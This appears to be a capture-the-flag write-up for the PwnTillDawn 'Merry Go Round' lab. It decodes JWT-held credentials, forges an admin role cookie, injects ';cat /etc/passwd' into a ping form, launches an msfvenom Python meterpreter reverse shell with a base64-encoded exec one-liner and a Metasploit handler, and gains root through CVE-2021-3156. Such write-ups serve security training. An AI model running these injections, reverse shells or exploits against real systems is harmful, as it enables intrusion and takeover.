 ```yaml
---
layout: post
title: PwnTillDawn - Merry Go Round Write-Up
date: 2025-03-03
classes: wide
description: Enumerating a Python web application, decoding JWT tokens and passwords, crafting custom cookies to elevate user privileges, getting a shell through a Code Execution vulnerability and escalating privileges with a known sudo CVE.
---
```


# Merry Go Round (10.150.150.100)

![](/home/rebellion/blog/jlowborn.github.io/assets/img/post/pwntilldawn_merry_go_round/1.png)

## Initial Reconnaissance

Let's check the results from Nmap and gather some intel on available services.

![2](/home/rebellion/blog/jlowborn.github.io/assets/img/post/pwntilldawn_merry_go_round/2.png)

Note that apart from SSH and a default Apache web server, we also have a Python application on port 5000 and some other ports with unknown services and strings. Since the results look the same, I'm assuming the strings are more relevant than the ports, so I've did some magic with `cut` to get the strings to a separate file:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoibG9va2hlcmUiLCJwYXNzIjoiOGU1N2MyZGQzNmMxZDM4Y2YwODdiZWVkNWIzMjNlMDU5MDViZmU3ZiJ9.fBKrYMD45D_RzqpviCaEtbikRy1IEUMp_WpinskOFq8

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW5pc3RyYXRvciIsInBhc3MiOiJmb3Jlc2lnaHQifQ.__jHKPQmpDS8cv8pPeUzIw_Rf7023a9uS6lOJ06L310

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW5pc3RyYXRvciIsInBhc3MiOiJhbmltYWxzIn0.JkpC-k2Dn8ilSAEVPujOdC9k7_kXE3f8Nq83bYsoqcY

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiaXRzbWUiLCJwYXNzIjoiNDdiY2U1Yzc0ZjU4OWY0ODY3ZGJkNTdlOWNhOWY4MDgifQ.Dl5z94QAi5MuOEA5sCO6-mY0zbuf7lJcvY-yMNr6v80

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiaG9uZXkiLCJwYXNzIjoiMzdjNjA3MTE5OWZjMGQ1NGM3ODA0ZjRlZTY3ZTBiZTFmZjQ5MGUwOWE3MzE2ZWIyMDJmODE4ZDcwOTk1MjU3MGYzMGVmYjE1ZjMwMGQ1ZTYwNmMxZjAxMjdlMTNiMTkwODU0Y2UyMjFkNjllYjg3OTBhZjI4YTQ0NjNmYTZiODEifQ.B7oIwzKMDvqASNqGMeCF65oD8JARDh1rGrR26j6QQE4

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiaXRzbWUiLCJwYXNzIjoiZDFlMDFlODU5MzYxNmY0NDViNWNkOWY5MDQzYTUyNDcifQ.lFjYg1jP-Uf2zLgTs9BBrbJJvtEQDhHF-IxjDBJTgg8

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiaXRzbWUiLCJwYXNzIjoiMjE4MWU2NzQ0YWExYmE3ZjQxNzk5NmM2ODljMjA2YjkifQ.cgvHCCkeb3cuettvALYp3jqGqLKPJcjyw8cv7jsYNH0

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiam9obiIsInBhc3MiOiJVRTlxZG5JNFVrcDNlSGQxYWt0VFpRbz0ifQ.KnkALx296Nb4Y-2JzTvbK2IedamG7gp_TpKb36WFqhI

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoicmljaGFyZCIsInBhc3MiOiI3MDc1NkU2NTY1NzQifQ.IhTAmFEqJYwvth8hLJDEolmkiOhDYEUqFmt3gB7qc5Y

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoibG9va2hlcmUiLCJwYXNzIjoiOWU2Njk1ZDA5OTQ2NmUwZjE4MGM1ZTJjNmJmMjY1NDI4MTQzYTNlOSJ9.Hq55Zrk-QOUcQDEu-8kzIkpNxUnVspDKi8iScETwZsM
```



## Decrypt, Crack, Ride Again

As the default Apache web server doesn't contain any information, let's skip to the Python `Werkzeug` web server on port 5000. We're greeted with a login page with no additional functionalities since there's no reset password page linked. Also, the source-code doesn't have anything relevant on it.

![3](/home/rebellion/blog/jlowborn.github.io/assets/img/post/pwntilldawn_merry_go_round/3.png)

If you're familiar with basic cryptography you've probably noticed the strings follow a certain pattern and they're likely to be base64 encoded strings. Attempt to decode any of the strings and you'll see they're actually JWT (Jason Web Tokens).

After using a [JWT debugger](https://jwt.io/) to decode the tokens, we'll notice that these tokens actually have usernames and passwords inside. Moreover, the stored passwords are encrypted with different algorithms for each one.

![4](/home/rebellion/blog/jlowborn.github.io/assets/img/post/pwntilldawn_merry_go_round/4.png)

We don't have a valid signature, but that's not important, so I've taken each credential and added to another file:

```
lookhere:8e57c2dd36c1dc38cf087beed5b323e05905bfe7f
administrator:foresight
administrator:animals
itsme:47bce5c74f589f4867dbd57e9ca9f80d8
itsme:d1e01e8593616f445b5cd9f9043a5247
itsme:2181e6744aa1ba7f417996c68c20b9
john:UE9xgnI4UkcWkD1aktZRco=
richard:70756E657364
lookhere:9e6695d09946e0f18c5e2c6bf26542813a3e9
honey:37c6071199fc0d54c7804f4e67e2b1df490e09a7316eb202f818d70995257a3062f9ac6c17c1c7dbdc6ef72c31be77b64c1c859ea9f18fc0500d29b32c8ae8d5f5b7e5bc6e22806d0a
```

Different passwods use different algorithms and encodings, as mentioned previously, such as base64, MD5 and hexadecimal. So I've decoded every password except for the `honey` user:

```
lookhere:harvey
administrator:foresight
administrator:animals
itsme:aaa
itsme:joanne
itsme:mutant
john:POjvr8RJwxwujKSe
richard:puneet
lookhere:hal
honey:37c6071199fc0d54c7804f4ee67e0be1ff490e09a7316eb202f818d709952570f30efb15f300d5e606c1f0127e13b190854ce221d69eb8790af28a4463fa6b81
```

Now, after a few attempts, I've successfully logged in using `john`'s account, reaching the first flag.

![5](/home/rebellion/blog/jlowborn.github.io/assets/img/post/pwntilldawn_merry_go_round/5.png)

Though the page asks for a username and employee ID, it doesn't matter what you type in, you'll be sent to an unauthorized page, so it has to be something else. The page tips us with the message `The higher you escalate, the more you see....` so checking users can't be right.



## Token Trickery

After being stuck for a while I've noticed something in the requests:

![6](/home/rebellion/blog/jlowborn.github.io/assets/img/post/pwntilldawn_merry_go_round/6.png)

The cookie explicitly tell us is meant to set a role for the user, futhermore there's a JS library being used in this page with some base64 strings inside:

![7](/home/rebellion/blog/jlowborn.github.io/assets/img/post/pwntilldawn_merry_go_round/7.png)

Decoding the base64 strings reveals crucial information abou the application:

```
role cookie format: sha256("username:user")
```

So this code is a `sha256` function, and the cookie format is username followed by a role, which can either be user or admin. Let's modify this cookie using the function inside thw brower console:

![8](/home/rebellion/blog/jlowborn.github.io/assets/img/post/pwntilldawn_merry_go_round/8.png)

And after reloading the page, we'll be greeted again with a new message, and another flag.

![9](/home/rebellion/blog/jlowborn.github.io/assets/img/post/pwntilldawn_merry_go_round/9.png)



## Command In, Shell Out

The new page has a simple ping functionality that's being executed inside the machine, so this calls for a Command Execution vulnerability instantly. Let's use a generic payload:

```
;cat /etc/passwd
```

![10](/home/rebellion/blog/jlowborn.github.io/assets/img/post/pwntilldawn_merry_go_round/10.png)

The `;` symbol ensures the next command will be executed even though the last one returned an error, so we don't need to add an IP address. Time get a shell inside this machine. I'll be using `msfvenom` to generate the payload: 

```
msfvenom -p python/meterpreter/reverse_tcp lhost=tun0 lport=4444 -f raw -o shell.py
```

> :bulb: **Did You Know?** You can actually use the network interface name instead of the IP address when creating payloads? (i.e. `lhost=interface`)

And here's our payload:

```
; python -c "exec(__import__('zlib').decompress(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('<BASE64_ENCODED_PAYLOAD>')[0])))"
```

Now let's start the handler:

```
msfconsole -x "use multi/handler;set payload python/meterpreter/reverse_tcp;set lhost tun0;set lport 4444;run -j"
```

And after sending the payload we'll receive the connection:

![11](/home/rebellion/blog/jlowborn.github.io/assets/img/post/pwntilldawn_merry_go_round/11.png)

The next flag will be found inside our current use home directory:

![12](/home/rebellion/blog/jlowborn.github.io/assets/img/post/pwntilldawn_merry_go_round/12.png)



## Sudo, Sudo, Root

The method to escalate privileges on this machine is by identifying a known CVE due to the out-of-date sudo version:

```
sudo --version | head -n1
```

![13](/home/rebellion/blog/jlowborn.github.io/assets/img/post/pwntilldawn_merry_go_round/13.png)

This version is actually vulnerable to CVE-2021-3156 (a.k.a. Sudo Baron Samedit). Since we're already using Metasploit, we can just use the available exploit for this CVE. Just use `Ctrl + Z` to background the current channel and `bg` to background the session, this will take you back to Metasploit.

```
search cve-2021-3156
```

![14](/home/rebellion/blog/jlowborn.github.io/assets/img/post/pwntilldawn_merry_go_round/14.png)

This is the exact one! Let's fill the required information and fire it up:

```
use exploit/linux/local/sudo_baron_samedit
```

![15](/home/rebellion/blog/jlowborn.github.io/assets/img/post/pwntilldawn_merry_go_round/15.png)

Once the exploit has been successfully executed, you can get another shell, this time as the `root`. The final flag is inside the user `happy` which we saw earlier in the `/etc/passwd` file:

![16](/home/rebellion/blog/jlowborn.github.io/assets/img/post/pwntilldawn_merry_go_round/16.png)

And with great success we have all the flags!
